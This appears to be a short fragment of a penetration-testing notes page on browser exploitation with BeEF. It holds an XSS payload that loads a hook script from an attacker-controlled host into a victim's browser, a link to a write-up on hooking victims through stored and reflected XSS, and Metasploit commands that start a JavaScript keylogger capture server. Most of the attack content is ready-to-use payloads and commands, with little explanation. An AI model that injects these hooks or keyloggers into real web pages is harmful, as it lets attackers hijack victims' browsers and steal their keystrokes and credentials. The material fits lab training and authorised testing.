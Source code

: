```
        .N0   lOXNX0x;  .KWWWWWWWWWWWNkc.                             
         :NO,         'lXWWWWWWWWWNk:.                                
          .dXN0OkxkO0NWWWWWWWWWWKl.                                   
             .';o0WWWWWWWWWWWNk;                                      
                  .cxOKXKKOd;.                                        
                                    
```



```javascript
<script src="http://192.168.1.9:3000/hook.js"></script>
```

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

[WriteUP](https://medium.com/@secureica/hooking-victims-to-browser-exploitation-framework-beef-using-reflected-and-stored-xss-859266c5a00a)

### XSS - Keyloger

```
use auxiliary/server/capture/http_javascript_keylogger
run
```

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
